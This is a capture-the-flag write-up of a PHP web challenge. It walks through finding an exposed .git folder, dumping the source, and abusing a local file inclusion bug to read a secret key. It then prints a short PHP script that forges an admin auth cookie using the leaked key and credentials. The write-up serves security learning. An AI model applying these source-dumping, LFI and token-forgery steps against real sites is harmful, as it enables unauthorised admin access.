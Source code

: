 ## Blackbox

<br>
  
![image](https://user-images.githubusercontent.com/64314534/235363758-3c94f31a-10c9-4f6e-b120-d869bc9a695d.png)

<br>

This should be a black box challenge but after some directory bruteforcing using `dirsearch` tool we found `.git` so, we used `git-dumper` tool to dump the source code

<br>


![image](https://user-images.githubusercontent.com/64314534/235364168-d5ea64e6-ad41-4de4-8ff0-1637a8d66791.png)

<br>

There are too many files but the only important are : index.php,admin.php,util.php,config.php,site-data.db


## Code Analysis:

### index.php

<br>

![image](https://user-images.githubusercontent.com/64314534/235364383-dac45006-2a4a-4031-bf41-1c4bceccfe08.png)

<br>

We can see that there is a limited Local File Inclusion vulnerability //since it's append .php to our input 

<br>

### admin.php

<br>

![image](https://user-images.githubusercontent.com/64314534/235364521-f509432e-0c37-44b2-8828-3d9b7e1578ba.png)


<br>

We can see that this page had the flag but to access it , we need to had cookie called `auth_token` and this cookie will passed into `is_admin` function and if it returned false the application will redirect us to the index page without viewing the page content.

So, our goal is clear now ! we need to forge this cookie to make the `is_admin` function returns true and then we can get the flag.

<br>

### util.php

<br>

![image](https://user-images.githubusercontent.com/64314534/235367099-3b378d93-917f-4fdb-8911-3bd142e1658b.png)

<br>

This file had many functions but we only need to review is `is_admin` function and any functions used by it . 

<br>

![image](https://user-images.githubusercontent.com/64314534/235367672-2b120719-7d2e-4cc9-8f44-1eb0cebb107b.png)

<br>

The is_admin function is doing the following : 

- Pass the token to `verify_token` function and if ok it will continue 
- Decode the token from base64 encoding and then from json 
- Get username,userkey,admin from the json data
- Select data that related to these username,userkey from db but in a secure way ( no sql injection here) 
- If the db had values for these username,userkey and admin==true the function will return true


## Exploit : 

- We need to make the `verify_token` function return true by getting the secret key from `config.php` file using LFI bug and php wrapper

<br>

![image](https://user-images.githubusercontent.com/64314534/235368134-91d38167-e7fd-40d8-a1fd-8175f5c09ba3.png)

<br>
- We will use `generate_admin_token` function to generate a new admin token 
<br>

![image](https://user-images.githubusercontent.com/64314534/235368259-1476c5f3-9f75-4b60-9e97-9486158bb815.png)

<br>

- To generate a new admin token we need username and user_key and we can get them from the db file

<br>

![image](https://user-images.githubusercontent.com/64314534/235368321-8deca14d-61f3-4ab5-bd4d-4bdc34e320ea.png)


<br>

- Now we had username, user_key, functions that generate the valid users so, let's try to make the exploit 

```php

<?php

const SECRET_KEY = 'JYOFGX6w5ylmYXyHuMM2Rm7neHXLrBd2V0f5No3NlP8';

function generate_admin_token(string $username, string $user_key) {
  $data = array('username'=>$username, 'user_key'=>$user_key, 'admin'=>true);
  return generate_token($data);
}

function generate_token(array $data) {
  $b64json = base64_encode(json_encode($data));
  $hmac = hash('md5', SECRET_KEY . $b64json);

  return $b64json . '.' . $hmac;
}


echo generate_admin_token('admin','26ceb685f46e6d22');

?>
```

and after running this file and send this request with the generated token we can get the flag : ) 

<br>

![image](https://user-images.githubusercontent.com/64314534/235368660-ffd9f0f1-706a-466a-83e7-9db740e2509c.png)
